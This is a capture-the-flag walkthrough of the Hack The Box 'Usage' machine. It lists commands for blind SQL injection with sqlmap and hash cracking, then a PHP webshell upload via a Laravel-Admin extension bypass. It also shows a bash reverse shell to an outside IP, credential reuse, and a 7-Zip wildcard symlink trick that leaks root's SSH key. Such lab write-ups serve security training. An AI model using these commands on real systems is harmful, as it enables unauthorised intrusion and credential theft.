 
**Machine Info:**
- Platform: [HTB](HTB)
- **IP**: `10.10.11.18`
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- **Exploits Used**:
  - Blind [SQL Injection](SQL Injection) in password reset  
  - PHP webshell upload via extension bypass in Laravel‑Admin over [HTTP](HTTP)  
  - 7‑Zip wildcard symlink exploit for file read  

**Open Ports:**
- [SSH](SSH) 22/tcp  
- [HTTP](HTTP) 80/tcp  

**Tools:**
- [nmap](nmap)  
- [ffuf](ffuf)  
- [sqlmap](sqlmap)  
- [hashcat](hashcat)  
- [Burp](Burp)  
- [sshpass](sshpass)  
- [nc](nc)  
- [7z](7z)  

---

## Recon 🔍
```bash
# Find live ports
nmap -p- --min-rate 10000 10.10.11.18

# Service/version detection
nmap -p 22,80 -sCV 10.10.11.18

# Virtual‑host discovery
ffuf -u http://10.10.11.18 -H "Host: FUZZ.usage.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
````

---

## Shell as dash 🐚

1. **Confirm blind [SQL Injection](SQL Injection)**
    
    ```bash
    # Test on password reset
    curl -X POST 'http://usage.htb/forgot-password' \
         -d "email=' or 1=1-- -"
    ```
    
2. **Dump database with sqlmap**
    
    ```bash
    sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch --dbs
    sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch \
           -D usage_blog --tables
    sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch \
           -D usage_blog -T admin_users --dump
    ```
    
3. **Crack the admin hash**
    
    ```bash
    echo "$HASH" > admin.hash
    hashcat -m 3200 admin.hash rockyou.txt
    ```
    
4. **Bypass file‑extension in Laravel‑Admin**
    
    - Upload `0xdf.php.jpg`, intercept in **Burp**, rename to `.php`
        
    - Access shell:
        
        ```
        http://admin.usage.htb/uploads/images/0xdf.php?cmd=id
        ```
        
5. **Get reverse shell**
    
    ```bash
    nc -lnvp 443
    curl 'http://admin.usage.htb/uploads/images/0xdf.php?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
    ```
    

---

## Shell as xander 👤

1. **Grab Monit creds** from dash’s home:
    
    ```bash
    grep -R "allow admin" /home/dash/.monitrc
    # → 3nc0d3d_pa$$w0rd
    ```
    
2. **Switch user**:
    
    ```bash
    su - xander
    ```
    
    or via [SSH](https://chatgpt.com/c/SSH):
    
    ```bash
    sshpass -p '3nc0d3d_pa$$w0rd' ssh xander@usage.htb
    ```
    

---

## Shell as root 👑

1. **Abuse NOPASSWD sudo on `usage_management`**
    
    ```bash
    cd /var/www/html
    touch @file; ln -fs /root/.ssh/id_rsa file
    sudo /usr/bin/usage_management
    ```
    
2. **Extract private key** from 7‑Zip warnings, clean it, then:
    
    ```bash
    chmod 600 usage-root
    ssh -i usage-root root@usage.htb
    ```
    

---

## Actions Learned 🎓

- Mastered blind [SQL Injection](SQL Injection) with **sqlmap**
    
- Bypassed extension checks in **Laravel‑Admin** for RCE
    
- Extracted service creds from **monit** config
    
- Leveraged wildcard expansion in **7z** via NOPASSWD sudo to leak files
    
- Chained full path: Recon → User (dash) → Admin (xander) → Root
    

---

## References 🔗

- CVE-2023-24249 – Laravel‑Admin file upload extension bypass
    
- HackTricks: 7‑Zip wildcard symlink attack
    
- [Laravel‑Admin GitHub](https://github.com/laravel-admin-extensions/laravel-admin)